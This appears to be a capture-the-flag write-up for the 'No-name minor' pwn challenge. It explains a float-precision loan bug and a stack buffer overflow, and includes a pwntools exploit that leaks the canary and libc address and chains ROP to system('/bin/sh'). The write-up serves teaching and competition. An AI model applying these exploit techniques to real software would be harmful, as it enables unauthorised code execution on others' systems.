 # Audit

## No-name minor

This was a challenge similar to the one I created for Battle of Hackers 2024 so we solved it relatively fast. The challenge provides us with a binary that presents a menu that allows the user to borrow a loan, repay the loan, mining for money, buy a name and change name. 

![image](https://github.com/user-attachments/assets/90df0d94-6313-47c3-98f0-9376ca855de0)

The goal is to get a name. But 

- To buy a name, you need to have money.
- To have money you cannot simply mine, cause it will take a lot of time.
- So you need to loan and then repay them.

The vulnerability lies in the way the program keeps track of the user's loan.

<details>
<summary>Source Code</summary>

```c
// Miner struct
struct MinerAccount {
	float cash;
	float debt_balance;
	int mining_attempts;
	char name[0x20];
};

// Loan function
void loan(struct MinerAccount *account) {
	uint32_t amount = 0;
    
	printf("How much loan would you like to request?\n");
	if(scanf("%d", &amount) != 1) {
    	printf("Invalid input\n");
    	return;
	}
    
	if(account->debt_balance + amount > MAX_LOAN) {
    	printf("Loan limit exceeded\n");
    	return;
	}

	account->cash += amount;
	account->debt_balance += amount;

	printf("Current cash: $%.2f\n", account->cash);
	printf("Debt balance: $%.2f\n", account->debt_balance);
}
```
</details>

The user's loan is defined as a float, which can be subjected to **floating point inaccuracy.**  A float is 32 bit and it has 1 bit for sign, 23 bit for mantissa and 8 bit for exponent. For integers, the inaccuracy starts at 2^24 (16,777,216). In other words, all integers can be represented as floats up to 2^24 but not beyond that. Specifically, in the range of 2^24 to 2^25, float does not support odd numbers, only even numbers.

<details>
<summary>Proof of Concept</summary>

### Proof of Concept

![image](https://github.com/user-attachments/assets/e75708b0-e383-4faa-bb98-5bbff0919289)

Heres a simple C program that demonstrates this

![image](https://github.com/user-attachments/assets/592a968a-5ee3-4b0d-a6b0-281de6eae7fa)

This is the output

</details>

### Exploiting the Program

Now, we just need to borrow money until 16777216, buy the name, and borrow loan of size $1 until we eventually are able to repay our loan.

![image](https://github.com/user-attachments/assets/ad4d18bc-c5af-45d3-b630-8f4067bb0321)

Buying the name

![image](https://github.com/user-attachments/assets/318be9bc-d5d2-419d-a6cb-637534776cb4)

After borrowing $1

### Buffer Overflow

<details>
<summary>Source Code</summary>

```c
#define MAX_BUF 0x200
struct MinerAccount {
	float cash;
	float debt_balance;
	int mining_attempts;
	char name[0x20];
};

void change_name(struct MinerAccount *account) {
	if (has_name_rights != 1) {
    	printf("You do not have the right to change your name.\n");
    	printf("Please purchase a name to gain the rights to rename your no-name.\n");
    	return;
	}
	if(account->debt_balance != 0) {
    	printf("You still have debts to repay.\n");
    	printf("Pay off your debts to rename your no-name.\n");
    	return;
	}
	printf("Enter new name.\n");
	read(0, account->name, MAX_BUF);

	printf("Name updated successfully.\n");
}

int main() {
	initialize();
	srand(time(NULL));
	struct MinerAccount account = {0, 0, 0, "no-name"};
	while(1) {
    	int choice;
    	printf("===========================\n");
    	printf("Welcome to %s\n", account.name);
    	printf("Current cash: $%.2f\n", account.cash);
    	printf("Debt balance: $%.2f\n", account.debt_balance);
    	printf("===========================\n");

    	printf("1. Loan\n2. Repayment\n3. Mining\n4. Buy Name\n5. Change Name\n6. Exit\nChoose an action.\n");
    	scanf("%d", &choice);
    	switch(choice) {
        	case 1:
            	loan(&account);
            	break;
        	case 2:
            	repayment(&account);
            	break;
        	case 3:
            	mining(&account);
            	break;
        	case 4:
            	buy_name(&account);
            	break;
        	case 5:
            	change_name(&account);
            	break;
        	case 6:
            	return 0;
        	default:
            	printf("Invalid choice\n");
            	break;
    	}
	}
	return 0;
}
```
</details>

The name in MinerAccount object was assigned to only 0x20 size, but in change_name function we can change up until 0x200. With the help of the printf() in main, we are able to leak the stack canary and libc address after overwriting enough bytes using read(). Putting it all together, we get 

1) We loan 16777216 money
2) Then we buy name so our money no 16777216 - 1337
3) Then if we loan 1 dollar each time, our cash increase, but debt stays the same. So we loan 1 dollar for 1337 times
4) Then can repay all debt
5) Now start the leaking process through name
6) Leak canary
7) Leak libc_start_main address
8) Proceed will rop chain to system

<details>
<summary>Exploit Script</summary>

```py
from pwn import *

exe = './prob'
elf = context.binary = ELF(exe, checksec = False)
io = elf.process()

context.log_level = 'info'

#---------------------------------------------------------------------
sleep(1)
#io.recvuntil(b'Choose an action.\n')
io.sendline(b'1')
#io.recvuntil(b'How much loan would you like to request?\n')
io.sendline(b'16777216')

#io.recvuntil(b'Choose an action.\n')
io.sendline(b'4')


for i in range(1337):
#	io.recvuntil(b'Choose an action.\n')
	io.sendline(b'1')
#	io.recvuntil(b'How much loan would you like to request?\n')
	io.sendline(b'1')

io.recvuntil(b'Choose an action.\n')
io.sendline(b'2')
io.recvuntil(b'How much would you like to repay?\n')
io.sendline(b'16777216')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')
io.sendline(b'A'*44)

io.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
canary = io.recv(7).strip()
canary = b'\x00'+canary
canary = unpack(canary)
info(f'Canary: {hex(canary)}')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')
io.sendline(b'A'*59)
io.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
libc_add = unpack(io.recv(6).strip().ljust(8,b'\x00'))
info(f'libc leaked : {hex(libc_add)}')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')

libc = ELF('./libc.so.6')
libc.address = libc_add-0x29d90
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*44
payload += p64(canary)
payload += b'A'*8
payload += p64(libc.address + 0x0000000000029cd6)
payload += rop.chain()
io.sendline(payload)

#--------------------------------------------------------------------
io.interactive()
```
</details>
